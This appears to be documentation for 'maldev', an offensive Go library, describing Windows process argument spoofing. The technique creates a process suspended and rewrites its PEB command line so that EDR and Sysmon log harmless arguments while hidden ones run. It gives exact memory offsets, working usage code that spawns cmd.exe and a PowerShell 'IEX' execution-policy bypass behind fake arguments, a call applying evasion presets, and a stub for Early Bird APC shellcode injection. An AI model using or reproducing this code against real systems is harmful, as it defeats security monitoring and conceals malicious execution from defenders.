

# Process Argument Spoofing

> **MITRE ATT&CK:** T1055.012 -- Process Injection: Process Hollowing | **D3FEND:** D3-PSMD -- Process Spawn Monitoring and Detection | **Detection:** Medium

## For Beginners

Imagine walking up to a security guard and saying "I am going to the library to study." The guard logs your stated destination and waves you through. Once past the checkpoint, you take a sharp turn and head to the vault instead. The security log still says "library" -- nobody knows you went somewhere else unless they physically follow you.

Process argument spoofing works the same way. When a new process is created on Windows, the command-line arguments are visible to security tools, process monitors, and Task Manager. These arguments are stored in the Process Environment Block (PEB). The trick: create the process in a suspended state with innocent-looking arguments, then rewrite the PEB command line to the real arguments before the process starts executing. Any tool that captured the command line at creation time (EDR, Sysmon, ETW) recorded the fake arguments. The process actually runs with the real ones.

This is not a shellcode injection technique per se -- it is a process creation evasion technique. It is commonly combined with other injection methods to hide the true intent of spawned processes.

## How It Works



**Step-by-step:**

1. **CreateProcess(CREATE_SUSPENDED)** -- Spawn the target executable with fake command-line arguments. EDR/Sysmon records these fake arguments in process creation telemetry.
2. **NtQueryInformationProcess** -- Query `ProcessBasicInformation` to get the PEB address.
3. **Read ProcessParameters** -- `ReadProcessMemory` at PEB+0x20 (x64) to find the `RTL_USER_PROCESS_PARAMETERS` pointer.
4. **Read CommandLine** -- `ReadProcessMemory` at ProcessParameters+0x70 to read the `UNICODE_STRING` struct containing the command line buffer address, length, and maximum length.
5. **Write real arguments** -- Encode the real command line as UTF-16LE, `WriteProcessMemory` into the remote `CommandLine.Buffer`, and update `CommandLine.Length`.
6. **Resume** -- The caller resumes the thread when ready. The process executes with the real arguments, while security logs show the fake ones.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/inject"
    "golang.org/x/sys/windows"
)

func main() {
    // Spawn cmd.exe -- EDR sees "/c dir", process actually gets "/c whoami".
    pi, err := inject.SpawnWithSpoofedArgs(
        `C:\Windows\System32\cmd.exe`,
        `/c dir`,               // fake args (visible to EDR)
        `/c whoami`,            // real args (actually executed)
    )
    if err != nil {
        log.Fatal(err)
    }
    defer windows.CloseHandle(pi.Process)
    defer windows.CloseHandle(pi.Thread)

    // Resume the process -- it runs with the real arguments.
    windows.ResumeThread(pi.Thread)
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
    "golang.org/x/sys/windows"
)

func main() {
    // 1. Apply evasion before spawning.
    evasion.ApplyAll(preset.Minimal(), nil)

    // 2. Spawn PowerShell with spoofed arguments.
    pi, err := inject.SpawnWithSpoofedArgs(
        `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`,
        `-NoProfile -Command Get-Date`,           // benign (logged by EDR)
        `-NoProfile -ep bypass -Command IEX(...)`, // real (actually runs)
    )
    if err != nil {
        log.Fatal(err)
    }
    defer windows.CloseHandle(pi.Process)
    defer windows.CloseHandle(pi.Thread)

    // 3. Optionally inject shellcode into the suspended process before resuming.
    shellcode := []byte{0x90, 0x90, 0xCC}
    cfg := &inject.WindowsConfig{
        Config: inject.Config{
            Method: inject.MethodEarlyBirdAPC,
        },
    }
    _ = cfg
    _ = shellcode
    // ... inject, then resume

    windows.ResumeThread(pi.Thread)
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | Medium-High -- defeats command-line logging (Sysmon Event 1, ETW). Process appears benign in logs. |
| Timing window | The PEB overwrite happens before ResumeThread, so the process never sees the fake arguments. |
| Buffer constraint | Real arguments must fit within the buffer allocated for fake arguments. Use fake args of equal or greater length. |
| Compatibility | Windows 7+ (x64). PEB offsets are stable across Windows versions. |
| Limitations | Advanced EDR may re-read the PEB after resume or hook `NtQueryInformationProcess` to detect changes. The process image path cannot be spoofed this way (only arguments). |
| Complementary | Pairs naturally with Early Bird APC or Thread Hijack -- spoof args + inject shellcode in the same suspended process. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| PEB argument overwrite | Yes | No | argue (BOF) | No |
| Returns ProcessInformation | Yes (caller controls resume) | N/A | N/A | N/A |
| UTF-16LE encoding | Built-in | N/A | N/A | N/A |
| Length validation | Checks MaximumLength | N/A | N/A | N/A |
| Composable with injection | Yes (same suspended process) | N/A | N/A | N/A |

## API Reference

```go
// SpawnWithSpoofedArgs creates a suspended process with fakeArgs visible
// in Task Manager, then overwrites the PEB command line with realArgs.
//
// The caller is responsible for:
//   - Closing pi.Process and pi.Thread handles
//   - Calling windows.ResumeThread(pi.Thread) when ready
func SpawnWithSpoofedArgs(exePath, fakeArgs, realArgs string) (*windows.ProcessInformation, error)
```
